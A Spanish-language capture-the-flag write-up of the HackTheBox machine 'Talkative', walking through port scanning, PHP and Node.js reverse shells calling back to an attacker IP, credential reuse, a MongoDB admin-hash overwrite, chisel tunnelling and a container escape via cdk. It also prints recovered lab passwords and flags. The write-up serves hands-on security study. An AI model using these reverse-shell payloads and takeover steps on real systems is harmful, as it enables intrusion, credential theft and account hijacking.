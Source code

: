 ```yaml
---
title: Talkative hackthebox writeup
author: HackerCloud
date: 2022-08-30 00:00:00 +0800
categories: [Hackthebox, machine, writeup]
tags: [Hackthebox, writeup]
image:
  path: ../../assets/img/commons/talkative-writeup/Talkative.png
  width: 800
  height: 500
  alt: Banner Talkative
---
```


Empezamos con el escaneo de nmap sobre los puertos de la máquina

```bash
❯ sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.155 -oG allPorts
Scanning 10.10.11.155 [65535 ports]
Discovered open port 8080/tcp on 10.10.11.155
Discovered open port 80/tcp on 10.10.11.155
Discovered open port 8081/tcp on 10.10.11.155
Discovered open port 3000/tcp on 10.10.11.155
Discovered open port 8082/tcp on 10.10.11.155
Nmap scan report for 10.10.11.155
PORT     STATE SERVICE         REASON
80/tcp   open  http            syn-ack ttl 62
3000/tcp open  ppp             syn-ack ttl 62
8080/tcp open  http-proxy      syn-ack ttl 62
8081/tcp open  blackice-icecap syn-ack ttl 62
8082/tcp open  blackice-alerts syn-ack ttl 62
```

Como está el puerto 80 abierto podemos ir directamente a la web pero nos redirige a un dominio, esto lo podemos comprobar con curl

```html
❯ curl 10.10.11.155
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://talkative.htb">here</a>.</p>
<hr>
</body></html>
```

En el puerto 80 no encontramos nada interesante, podemos ir al puerto 8080 a ver su contenido

Podemos ver que hay una aplicación de Hoja de cálculo normal, tenemos disponible un editor que nos permite ejecutar código, vamos a intentar ejecutar una reverse shell, ya que esta web ejecuta código PHP

En este caso voy a usar esta reverse shell:

`system('bash -c "bash -i >& /dev/tcp/10.10.14.75/1234 0>&1"')`

Nos llega una reverse shell de un contenedor, no podemos entrar desde aquí a la máquina real pero podemos revisar los archivos de la máquina

```bash
❯ sudo nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 45940
root@b06821bbda78:/# whoami
whoami
root
root@b06821bbda78:/# hostname -I
hostname -I
172.18.0.2 
root@b06821bbda78:/#
```

Encontramos el archivo `/root/bolt-administration.omv`, no tenemos nada dentro de la máquina para poder descargar este archivo en nuestra máquina, podemos usar pwncat-cs para descargarlo directamente cuando nos llega la reverse shell

Una vez descargado podemos ver que contiene usuarios y contraseñas, creamos una expresión regular para poder filtrar por los que nos interesa, finalmente quedaría así:

~~~
matt
janit
saul
jeO09ufhWD<s
bZ89h}V<S_DA
)SQWGm>9KHEA
~~~

Haciendo Fuzzing sobre el dominio podemos encontrar el directorio bolt que contiene una página de inicio de sesión, podemos probar las crendenciales que hemos encontrado anteriormente a ver si las reutilizan aquí

El usuario admin funciona con la contraseña `jeO09ufhWD<s` , así que iniciamos sesión con las credenciales

Una vez iniciada la sesión podemos ver un apartado de configuración, dentro hay un apartado llamado `All Configuration Files`, vamos a ver su contenido

Podemos ver un archivo llamado `Bundle.php` , como la web interpreta PHP podemos usar la reverse shell anterior para meternos a la máquina

```php
<?php
	system('bash -c "bash -i >& /dev/tcp/10.10.14.75/1234 0>&1"')
?>
```

Nos ponemos en escucha con Netcat y nos llega una reverse shell como www-data en un contenedor

```bash
❯ sudo nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 57846
www-data@b922262b694b:/var/www/talkative.htb/bolt/public$ hostname -I
hostname -I
172.17.0.15 
```

Esto no nos da mucha información, podemos probar las credenciales encontradas anteriormente por SSH desde el propio contenedor

```bash
www-data@b922262b694b:/var/www/talkative.htb/bolt/public$ ssh saul@172.17.0.1
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
saul@172.17.0.1 password: jeO09ufhWD<s
saul@talkative:~$ whoami
saul
saul@talkative:~$ cat user.txt 
cd8c******cb258c950d9edcc065
```

Con [pspy](https://github.com/DominicBreuker/pspy) descubrimos este proceso

```bash
CMD: UID=0    PID=4894   | /bin/sh -c python3 /root/.backup/update_mongo.py
```

El cual es un script que actualiza la base de datos mongo, el puerto de mongo está abiero así que podemos tunelizar la conexión para poder conectarnos a la base de datos remotamente

```bash
saul@talkative:~$ netstat -nat
tcp        0      0 172.17.0.1:43752        172.17.0.2:27017        TIME_WAIT
```

Con [chisel](https://github.com/jpillora/chisel) tunelizamos la conexión hacia nuestra máquina

Máquina atacante:

```bash
❯ chisel server --reverse --port 8000
2022/08/30 17:21:20 server: Reverse tunnelling enabled
2022/08/30 17:21:20 server: Fingerprint 4iFocLbXWmRvOoiAYCwK9t8TfvcH6MJOSR1ngLYhgoM=
2022/08/30 17:21:20 server: Listening on http://0.0.0.0:8000
```

Máquina víctima:

```bash
saul@talkative:~$  ./chisel client 10.10.14.75:8000 R:27017:172.17.0.2:27017
2022/08/30 15:25:37 client: Connecting to ws://10.10.14.75:8000
2022/08/30 15:25:37 client: Connected (Latency 38.916105ms)
```

Ahora podemos intentar conectarnos a mongoDB e intentar cambiar la contraseña del usuario administrador de la web

```bash
rs0 [direct: primary] test> show databases
admin   104.00 KiB
config  124.00 KiB
local    11.69 MiB
meteor    4.91 MiB
rs0 [direct: primary] test> use meteor
switched to db meteor
rs0 [direct: primary] meteor> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 1,
  upsertedCount: 0
}
```

Ahora como tenemos tunelizada la conexión tenemos que meternos por el puerto 8000 el cual está abierto en la máquina a la que nos estamos conectando con Chisel

Podemos ir al apartado de Administración>integraciones para crear una nueva integración

Nueva integración>WebHook entrante

~~~
Habilitado: Verdadero
Nomb: Shell
Canal: #general
Publicar como: admin
script habilitado: verdadero
~~~

Vamos a usar la primera línea de este [exploit](https://github.com/CsEnox/CVE-2021-22911/blob/main/exploit.py) , finalmente queda algo así

```bash
const require = console.log.constructor('return process.mainModule.require')();
require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.75/1234 0>&1"');
```

Lo guardamos y hacemos un curl a la URL del webhook con el token que nos pone en la integración que hemos creado

```bash
❯ curl http://talkative.htb:3000/hooks/hA7ZNgGYHtRhpYBjH/CsNw6amXPMXR4PH9SANT7cyrFaDwhMpLNiiCwHzX9gCfwXcc
{"success":false}
```

Aunque ponga false nos llega la reverse shell, seguimos en un contenedor y no podemos descargar archivos de la máquina desde dentro

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 57468
root@c150397ccd63:/app/bundle/programs/server# hostname -I
hostname -I
172.17.0.3
```

Ahora con pwncat-cs nos ponemos en escucha, ejecutamos el comando de curl de antes y con  cdk leemos archivos de la máquina real, podemos leer directamente la flag.

```bash
❯ pwncat-cs -lp 1234
[17:41:55] Welcome to pwncat 🐈!                                                                                                               
(local) pwncat$ upload cdk /root/cdk
/root/cdk
[17:42:12] uploaded 11.91MiB in 6.67 seconds                                                                                                      
(local) pwncat$ back
(remote) root@c150397ccd63:/app/bundle/programs/server# cd /root
(remote) root@c150397ccd63:/root# chmod +x cdk                                                                                                               
(remote) root@c150397ccd63:/root# ./cdk run cap-dac-read-search /root/root.txt                                                                               
Running with target: /root/root.txt, ref: /etc/hostname
57ebcfafa23a47da6507a95d1307beff
(remote) root@c150397ccd63:/root#
```

Con esto terminamos la máquina Talkative.

